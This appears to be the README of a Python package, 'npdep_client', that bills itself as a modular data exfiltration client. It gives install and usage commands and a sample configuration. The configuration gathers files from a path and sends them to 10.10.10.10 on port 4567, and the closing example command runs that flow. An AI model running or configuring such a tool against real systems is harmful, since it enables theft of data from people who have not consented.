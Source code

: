 # Description

Network Protocol Data Exfiltration Project Client - A modular approach for data exfiltration

# Installation

`pip install npdep_client`

# Usage

**From command line:**

`python -m npdep_client [-h] --config CONFIG`

| Option | Short | Type | Default | Description |
|---|---|---|---|---|
|--config | -c | String | - | Path to Configuration File |

# Configuration

```json
{
    "options":{
       "modulePath": "path/to/modules" // By providing a path, you can load modules not installed via pip
    },
    "sourcing": {
        "module": {
            "name": "SourcingModule",   // Name of the module .py file
            "options": {                // Custom options object for your specific module
                "path": "path/to/files" // Example: This module searches for files under the given path
            }
        }
    },
    "transfer": {
        "module": {
            "name": "TransferModule",   // Name of the module .py file
            "options": {                // Custom options object for your specific module
                "ip": "10.10.10.10",    // Example: Send files to given ip on given port
                "port": 4567
            }
        }
    }
}
```


# Example

`python -m npdep_client -c config.json`

Given the previous configuration file `npdep_client` is going to start `SourcingModule` which searches for files under `path/to/files` and send it via `TransferModule` to `10.10.10.10` under port `4567`